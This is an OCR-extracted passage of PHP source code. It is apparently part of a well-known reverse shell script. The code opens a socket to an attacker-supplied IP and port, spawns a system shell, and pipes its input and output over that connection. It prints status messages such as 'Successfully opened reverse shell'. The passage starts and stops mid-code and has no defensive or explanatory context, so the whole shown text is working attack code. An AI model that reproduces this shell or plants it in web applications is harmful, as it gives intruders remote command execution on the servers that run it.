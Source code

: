 ```php

	$daemon = 1;
} else {
	printit("WARNING: Failed to daemonise.  This is quite common and not fatal.");
}

chdir("/");

umask(0);

// Open reverse connection
$sock = fsockopen($ip, $port, $errno, $errstr, 30);
if (!$sock) {
	printit("$errstr ($errno)");
	exit(1);
}

$descriptorspec = array(
   0 => array("pipe", "r"),  // stdin is a pipe that the child will read from
   1 => array("pipe", "w"),  // stdout is a pipe that the child will write to
   2 => array("pipe", "w")   // stderr is a pipe that the child will write to
);

$process = proc_open($shell, $descriptorspec, $pipes);

if (!is_resource($process)) {
	printit("ERROR: Can't spawn shell");
	exit(1);
}

stream_set_blocking($pipes[0], 0);
stream_set_blocking($pipes[1], 0);
stream_set_blocking($pipes[2], 0);
stream_set_blocking($sock, 0);

printit("Successfully opened reverse shell to $ip:$port");

while (1) {
	if (feof($sock)) {
		printit("ERROR: Shell connection terminated");
		break;
	}

	if (feof($pipes[1])) {
		printit("ERROR: Shell process terminated");
		break;
	}

	$read_a = array($sock, $pipes[1], $pipes[2]);
	$num_changed_sockets = stream_select($read_a, $write_a, $error_a, null);

	if (in_array($sock, $read_a)) {
		if ($debug) printit("SOCK READ");
		$input = fread($sock, $chunk_size);
		if ($debug) printit("SOCK: $input");
		fwrite($pipes[0], $input);
	}

	if (in_array($pipes[1], $read_a)) {
		if ($debug) printit("STDOUT READ");
		$input = fread($pipes[1], $chunk_size);
		if ($debug) printit("STDOUT: $input");
		fwrite($sock, $input);
```